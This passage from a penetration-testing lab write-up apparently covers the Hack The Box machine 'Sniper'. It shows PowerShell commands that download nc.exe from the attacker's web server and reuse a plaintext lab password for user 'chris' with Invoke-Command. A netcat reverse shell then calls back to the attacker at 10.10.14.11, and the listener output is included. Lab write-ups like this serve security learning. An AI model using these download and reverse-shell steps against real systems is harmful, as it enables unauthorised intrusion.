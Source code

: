 ```
PS C:\gr4n173> cd files
cd files
PS C:\gr4n173\files> Invoke-Webrequest -Uri http://10.10.14.11:8000/nc.exe -OutFile nc.exe
Invoke-Webrequest -Uri http://10.10.14.11:8000/nc.exe -OutFile nc.exe
PS C:\gr4n173\files> 
```
 
```
root@gr4n173:~var/www/html/pub$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.151 - - [28/Mar/2020 20:38:14] "GET /nc.exe HTTP/1.1" 200 -
```

Finally downloaded `nc.exe`. Now I used `creds` and `Invoke-Command` to know the if I can run the command as

### Privilege User
```
PS C:\gr4n173\files> $pass =cOnvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
$pass =cOnvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
PS C:\gr4n173\files> $cred = New-Object System.Management.Automation.PSCredential(".\chris",$pass)
$cred = New-Object System.Management.Automation.PSCredential(".\chris",$pass)
PS C:\gr4n173\files> Invoke-Command -Computer Sniper -ScriptBlock { whoami } -Credential $cred 
Invoke-Command -Computer Sniper -ScriptBlock { whoami } -Credential $cred 
sniper\chris
```
In above command, at first I defined a variable `$pass` which store the password and another variable `cred` for passing the `user` and `pass` to `Powershell` and last one gaves the output of command `whoami` in `Powershell`. Hence I can run the `command` .


## Reverse shell

So I used the `nc reverse shell` as with a listener on.

```
PS C:\gr4n173\files> Invoke-Command -Computer Sniper -ScriptBlock { C:\gr4n173\files\nc.exe 10.10.14.11 4445 -e powershell } -Credential $cred 
Invoke-Command -Computer Sniper -ScriptBlock { C:\gr4n173\files\nc.exe 10.10.14.11 4445 -e powershell } -Credential $cred 
```
##### Listener:

```
root@gr4n173:~$nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.151] 50671
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
 
PS C:\Users\Chris\Documents> hostname
hostname
Sniper
```
This way I got the user.
